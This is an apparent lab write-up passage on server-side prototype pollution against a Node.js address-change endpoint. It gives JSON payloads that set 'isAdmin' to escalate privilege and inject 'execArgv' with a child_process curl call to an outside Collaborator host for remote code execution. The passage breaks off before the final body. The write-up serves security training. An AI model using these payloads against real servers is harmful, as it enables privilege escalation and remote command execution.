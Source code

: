     {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "CJRV1tSvUfuNnxa5UXyoxqmKJ7LnHYbx",
        "constructor": {
            "prototype": {
                json spaces":10
            }
        }
    }

Now the response has the correct identation as we specified, indicating a prototype pollution vulnerability. This time send this body to successfully escalate the privilege and delete Carlos:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "CJRV1tSvUfuNnxa5UXyoxqmKJ7LnHYbx",
        "constructor": {
            "prototype": { 
                "isAdmin": true 
            }
        }
    }

### LAB: Remote code execution via server-side prototype pollution
Found that `/my-account/change-address` is vulnerable to prototype pollution, send this the request with this body:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "BT6cFDohs56k0GoEGP4xRXwFF2RY1SHK",
        "__proto__": {
            "execArgv": [
            "--eval=require('child_process').execSync('curl https://kzn4ftgcclackeaamiwn2p1ndej57xvm.oastify.com')"
            ]
        }
    }

Send the `POST /admin/jobs HTTP/2` to spawn node child process which execute the OS command. Notice the HTTP request coming to our Collaborator, indicating a successfull RCE. Now redo the process but with this body for the `POST /my-account/change-address HTTP/2` request to solve the lab:
